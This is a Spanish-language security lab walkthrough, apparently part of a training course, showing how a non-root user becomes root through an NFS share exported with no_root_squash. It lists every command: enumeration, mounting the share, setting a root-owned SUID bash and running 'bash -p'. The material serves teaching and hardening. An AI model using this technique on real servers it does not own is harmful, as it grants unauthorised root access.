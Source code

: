 # Escalado de privilegio explotando ***no_root_squash***.

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***ubu_srv_01***

***REQUIERE HABER REALIZADO 4. Laboratorio 04-D: Enumeración NFS. Ejercicio - Configuración de un share de NFS***.


## Convertirse en root por una NFS mal configurada.
Como debemos tener claro, un uso de NFS no seguro puede conducir a situaciones no deseadas. Después de aprender a enumerar las shares NFS (tal y como se vió en el ***lab-04-D***) se determina que existe una share que tiene habilitada la configuración ***no_root_squash***. Este parámetro permite al usuario ***root*** de la máquina cliente acceder al share. Como ya sabemos, trabajar con un usuario ***root*** es una mala idea.

En la máquina ***Kali*** ejecutamos el siguiente comando.
```
nmap -sV -p 111 --script=nfs-showmount 192.168.20.60
```

Cuya salida demuestra que se está compartiendo el directorio ***/datos*** en dicha máquina. 

Esta tecnica se emplea cuando se necesita escalar privilegios, es decir, el actor de la amenaza ya posee una credencial de usuario en la máquina víctima. La credencial puede haber sido capturada en un ataque previo o, se trata de un ***insider***. En cualquier caso se desea ser ***root*** en la máquina NFS.

Para hacer una simulación real, vamos a crear un usuario nuevo, sin permisos de ***root***, en la máquina ***ubu_srv_01***, por medio del siguiente comando.
```
sudo useradd luke
``` 

Y por contraseña ponemos ***UsaLaLFuerza***, por medio de este comando.
```
sudo passwd luke
```

Iniciamos sesión con el nuevo usuario. Primero cerramos la sesión del usuario ***antonio***.
```
logout
```

E iniciamos sesión con ***luke***/***UsaLaFuerza***. Compromamos quien somos.
```
whoami
```

La salida mostrará que es un usuario convencional (***luke***) que no es ***root*** en esa máquina.

Ahora, el usuario ***luke*** va a hacer algo que parece inocuo. Copia el archivo de la shell a la carpeta ***/datos***, para la cual tiene permisos de escritura.
```
cp /bin/bash /datos
```

Si listamos la carpeta veremos que el propietario es ***luke***
```
ls -l /datos
```

![propietario de bash](../img/lab-04-D/202209101503.png)


Ahora en la maquina ***Kali***.

El siguiente paso es intentar montar ese share.

Creamos una carpeta de trabajo temporal.
```
mkdir -p /tmp/share
```

Montamos el share.
```
sudo mount -t nfs 192.168.20.60:/datos /tmp/share
```

Comprobamos que se ha montado el share.
```
df -k
```

El resultado debe ser similar al mostrado en la siguiente imagen.

![NFS Share mounted](../img/lab-30-D/202209101823.png)

A través del punto de montaje, podemos ver el archivo ***bash*** que el usuario ***luke*** copió.
```
cd /tmp/share

ls -l
```

Para que el exploit funcione, debemos asignar el permiso ***SUID*** al archivo copiado (***bash***). Al haber montado el share con la opción ***no_root_squash*** habilitata, nos da acceso de administrador a los archivos que allí se encuentren.

Vamos a cambiar el ***propietario*** y asignar el permiso ***SUID*** a ***bash***.
```
sudo chown root.root bash
```

```
sudo chmod +s bash

ls -l bash
```

En la imagen podemos ver el resultado.

![SUID](../img/lab-30-D/202209102213.png)

Un archivo con el permiso ***SUID*** (bit s), puede ser ejecutado por cualquier usuario, per siempre se ejecuta con el permiso del propietario, que es ***root***.

En la máquina ***ubu_srv_01***, donde hemos iniciado la sesión con el usuario ***luke***, ejecutamos el comando.
Nota: ***-p*** ejecuta la shell en modo privilegiado, de no ponerlo, SUID no tendrá efecto.
```
/datos/bash -p
```

Ahora solo queda preguntar al sistema quién somos.
```
whoami
```

Hemos escalado al ***root*** sin necesidad de conocer la contraseña.

![bash -p](../img/lab-30-D/202209102221.png)

Ya solo queda desmontar el share. En la máquina ***Kali***.
```
cd ~

sudo umount /tmp/share
```

